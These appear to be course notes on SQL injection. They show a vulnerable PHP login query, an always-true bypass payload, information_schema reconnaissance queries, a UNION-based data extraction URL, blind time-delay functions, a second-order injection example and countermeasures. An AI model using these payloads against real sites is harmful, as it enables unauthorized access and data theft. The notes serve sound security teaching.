 # 13 - SQL Injection

The objectives of SQLi are 

- **Elevation of privilege** - bypass authentication
- **Information disclosure** - read data that should not be accessible
- **Tampering** - modify or delete data without permission
- **Denial of service** - force the DB server to do costly operations

## Example

```php
$query = "SELECT userid FROM UsersTable WHERE user = '$_GET["user"]' "
         . "AND password = '$_GET["password"]'";
```

We can send a HTTP request

```
http://www.example.com/login.php?user=foo&password=bar' OR '1' = '1'
```

And the dynamic SQL query will be built from request parameters

```SQL
SELECT userid FROM usersTable WHERE user = 'foo'
AND password = 'bar' OR '1' = '1'
```

The `WHERE` condition is trivially true.

## SQLi Exploitation

### Find out who you are, what priviliges you have

```SQL
SELECT user();
SELECT grantee, privilege_type FROM information_scheme.user_privileges;
```

### Find out what data are available

```sql
SELECT table_schema, table_name, column_name FROM information_schema.columns
WHERE table_schema != 'mysql' AND table_schema != 'information schema'
```

### Data exfiltration using `UNION` statements

- Number and type of columns must match
- `NULL` for missing columns, convert data where possible `CAST('123' AS char)`

Example:

```
http://www.victim.com/products.asp?id=12+union+select+userid,first_name,second_name,NULL+from+customers
```

```SQL
SELECT id, type name, price FROM products WHERE id = 12 UNION
SELECT userid, first_name, second_name, NULL from customers
```

## Blind SQLi

Web-based interaction with a database may not display data as a response. We can use **side channels** to identify if the web app is vulnerable to SQL injection. Most commonly, this involves looking at the *time* it takes to serve a response; also error messages can help identify the vulnerability.

To do this, we can try paylaods that case a delay in processing. 

- In MySQL: `SLEEP()`
- In PostgreSQL: `pg_sleep()`

## Second Order SQLi

Untrusted data could be handled securely when it is first inserted into the database, avoiding injection. However, other application components later read data from the database, assuming it does not need sanitisation. To exploit this, the user may submit payloads that are dangerous only on the second usage.

Example:

1. Attacker registers username `admin' --`

2. Password reset code

   ```php
   pwd = escape(request.getParameter("new_password"));
   usr = session.getUsername();
   sql = "UPDATE USERS SET passwd='" + pwd + ' WHERE uname = '" + user + "'"
   ```

3. Attacker asks to reset his password to `hacked`

   ```SQL
   UPDATE USERS SET passwd='hacked' WHERE uname = 'admin' --'
   ```

## Countermeasures

- Input filtering
  - Escape blacklisted characters, PHP has `mysqli_real_escape_string()`
  - However, it's hard to capture all user input
  - Hard to escape correctly across multiple trust boundaries
- Prepared statements
  - Avoid building SQL commands piece-wise from strings
- Stored procedures
  - These are parameterised SQL queries stored in the database, so the database offers a fixed API to the application
- Static/dynamic analysis of server-side code interfacing with a database
  - Type systems
  - Taint analysis
    - Detect if untrusted input can reach the database without passing via a sanitisation function
- Rate limit requests to a web server or database server
- Web Application Firewall (WAF)
  - An IDS in front of the database, aware of the web application
  - Can detect and stop sequences of suspicious queries
- Rely on a programming framework
  - They have been carefully developed, reviewed, and tested
  - Sometimes vulnerabilities are inherited from the framework
  - May add uneccessary functionality, increasing the size of the trusted computing base
  - Users rarely understand all details of framework code, and consequences of using it


